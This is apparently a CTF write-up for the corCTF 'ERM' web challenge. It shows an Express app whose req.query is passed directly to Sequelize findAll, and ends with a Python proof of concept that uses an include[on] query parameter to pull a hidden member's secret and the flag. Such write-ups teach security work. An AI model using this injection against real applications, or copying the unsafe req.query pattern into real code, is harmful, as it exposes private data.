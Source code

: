 
# ERM Challenge
## Recon

As always, I first started by reviewing the Dockerfile but didn't find anything interesting. The next step was to check the package.json file to see if any of the packages used in this Node app were outdated. At the time of the CTF, all packages were up to date.

When examining the app.js file, I found it rather anticlimactic to see that the main app was only 50 lines of code. I also noticed that the routes were organized into backend and frontend handlers.

### Backend routes:
```js
app.get("/api/members", wrap(async (req, res) => {
    res.json({ members: (await db.Member.findAll({ include: db.Category, where: { kicked: false } })).map(m => m.toJSON()) });
}));

app.get("/api/writeup/:slug", wrap(async (req, res) => {
    const writeup = await db.Writeup.findOne({ where: { slug: req.params.slug }, include: db.Member });
    if (!writeup) return res.status(404).json({ error: "writeup not found" });
    res.json({ writeup: writeup.toJSON() });
}));

app.get("/api/writeups", wrap(async (req, res) => {
    res.json({ writeups: (await db.Writeup.findAll(req.query)).map(w => w.toJSON()).sort((a,b) => b.date - a.date) });
}));
```

### Frontend routes:
```js
app.get("/writeup/:slug", wrap(async (req, res) => {
    res.render("writeup");
}));

app.get("/writeups", wrap(async (req, res) => res.render("writeups")));

app.get("/members", wrap(async (req, res) => res.render("members")));

app.get("/", (req, res) => res.render("index"));

app.use((err, req, res, next) => {
    console.log(err);
    res.status(500).send('An error occurred');
});
```
I also noticed that instead of raw SQL queries, the app was using Sequelize ORM to construct SQL queries. One interesting observation was that data input seemed to occur only when constructing these queries, specifically in:
```js
app.get("/api/writeup/:slug", wrap(async (req, res) => {
    const writeup = await db.Writeup.findOne({ where: { slug: req.params.slug }, include: db.Member });
    if (!writeup) return res.status(404).json({ error: "writeup not found" });
    res.json({ writeup: writeup.toJSON() });
}));

app.get("/api/writeups", wrap(async (req, res) => {
    res.json({ writeups: (await db.Writeup.findAll(req.query)).map(w => w.toJSON()).sort((a,b) => b.date - a.date) });
}));
```

I wanted to see if we could somehow escape the SQL query being made when entering the slug of the writeup, specifically the `where` part of the model method. I found an issue that utilized replacements and the `where` parameter to escape the query, but [this vulnerability](https://github.com/advisories/GHSA-wrh9-cjv3-2hpw) was patched in a much earlier version. I thought perhaps there was an open issue discussing another unpatched vulnerability, but this approach led nowhere.

Focusing on the second interesting API route, I found `req.query` to be very intriguing. It essentially gets the query parameters, maps them to JSON, and uses the JSON as the query.

According to [Express.js documentation](https://expressjs.com/en/api.html#req.query), `req.query` is an object containing a property for each query string parameter in the route. This object is passed to the `findAll` method of the model. Knowing we control the parameters of the `findAll` method function, the next step was to understand the database structure and how to gain access to the user with the flag.

In the db.js file, we learn about the `Member`, `Writeup`, and `Category` tables. The user with the flag is located in the `Member` table. Conveniently, the `Member` table and the `Writeup` table have a one-to-one relationship, indicated by `Writeup.belongsTo(Member)`. You can read more about relationships in the [Sequelize documentation](https://sequelize.org/docs/v6/core-concepts/assocs/).

Since there is a one-to-one relationship between `Member` and `Writeup`, we can retrieve all information associated with the `Writeup` table from the `Member` table. However, the user we want to access isn't associated with the `Writeup` table.

## Exploitaion

To test payloads faster, I made some quick changes to the app.js:

```js
app.get("/api/writeups", wrap(async (req, res) => {
    console.log(req.query);
    res.json({ writeups: (await db.Writeup.findAll(req.query)).map(w => w.toJSON()).sort((a,b) => b.date - a.date) });
}));
```

And in db.js:

```js
const sequelize = new Sequelize({
    dialect: 'sqlite',
    storage: 'erm.db',
    logging: console.log
});
```
These changes allowed me to log all queries constructed by Sequelize and how the query parameters were being parsed. I tried various payloads, but none worked. The payloads involved using [`include{association: tableAssociatedTo, where: }`](https://sequelize.org/docs/v6/advanced-association-concepts/eager-loading/#fetching-all-associated-elements) parameters, but I couldn't find a way to append the `where` parameter's value to the query using OR instead of AND. Passing [`sequelize.literal()`](https://sequelize.org/docs/v6/other-topics/sub-queries/) also failed as `req.query` parsed it as a string.

Taking a step back, I searched for anyone who tried including information from related but unassociated tables. I found a goldmine, [a post on GitHub](https://github.com/sequelize/sequelize/issues/5385) where someone had the same exact problem.

![img.png](img.png)

All that was left was to test the query. It worked!

![img_1.png](img_1.png)

The flag `corctf{erm?_more_like_orm_amiright?}`

My Proof of Concpet:
```python
import requests, json
re =requests.get('https://erm.be.ax/api/writeups?include[association]=Member&include[on][username]=goroo')
print(json.loads(re.text)['writeups'][0]['Member']['secret'])
```

## Conclusion
This challenge took longer than I expected, but it was quite interesting. It taught me a lot about reconnaissance and thinking outside the box. Initially, I never thought I would use experimental features not even mentioned in the docs.